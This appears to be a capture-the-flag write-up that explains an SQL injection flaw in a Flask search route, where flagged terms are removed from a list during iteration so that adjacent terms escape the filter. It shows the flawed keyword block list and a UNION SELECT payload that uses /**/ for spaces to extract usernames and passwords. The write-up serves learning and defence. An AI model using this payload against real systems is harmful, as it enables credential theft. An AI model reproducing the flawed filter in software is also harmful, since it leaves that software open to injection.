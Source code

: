 ![image](https://github.com/user-attachments/assets/2e49caca-0651-40cd-be99-4338a684a621)

# credit
Thank you [@Baba is dead](https://github.com/Zhongbob) for sharing the solution

# Solution
The vulnerability lies within these few lines of code.

```
def detect_sqli(sql):
    # List of common SQL keywords and characters often used in SQL injection
    disallowed_patterns = [
        r"SELECT", r"UNION", r"JOIN", r"FROM", r"WHERE", r"ON",
        r"OR", r"AND", r"NOT", r"IN", r"LIKE", r"DROP", r"INSERT",
        r"DELETE", r"UPDATE", r"EXEC", r"EXECUTE", r"CREATE", r"ALTER",
        "--", "#", ";", "/*", "*/", "@@", "0x", "'", "\"", "`", "-", "/", "*"
    ]

    # Escape special characters and combine patterns into a single regex
    escaped_patterns = [re.escape(pattern) if not pattern.isalnum() else pattern for pattern in disallowed_patterns]
    combined_pattern = re.compile("|".join(escaped_patterns), re.IGNORECASE)

    # Check if any disallowed pattern is found in the SQL query
    if combined_pattern.search(sql):
        return True

    return False

@app.route('/filter', methods=["POST"])
def filter():
    if not session.get('is_logged_in'):
        return redirect(url_for('login'))
    with connect(g.uuid) as conn:
        search = request.form['search']
        terms = search.split(" ")
        query = "SELECT name,location,description from targets"
        for term in terms:
            if detect_sqli(term):
                terms.remove(term)
        if terms:
            location_match = " OR ".join(f"name LIKE '%{term}%'" for term in terms)
            name_match = " OR ".join(f"location LIKE '%{term}%'" for term in terms)
            description_match = " OR ".join(f"description LIKE '%{term}%'" for term in terms)
            query += " WHERE " + " OR ".join([location_match,name_match,description_match])
            print(query)
        cursor = conn.execute(query)
        targets = cursor.fetchall()
        targets = list(targets)
    return jsonify(targets)
```

The reason that it's vulnerable that if one term is detected, it will be removed but the next few following terms won't.

![image](https://github.com/user-attachments/assets/78fb50ae-1d9d-4d78-9661-df446349be7f)

Therefore, we can give a payload like such

```
-- dhadhlsjldas%'/**/UNION/**/SELECT/**/username,password,userId/**/FROM/**/users--
```

Since spaces are being split, we can use a /**/ to bypass that space filter.

![image](https://github.com/user-attachments/assets/4581b6ac-ba76-4952-817b-d143cfcf029d)
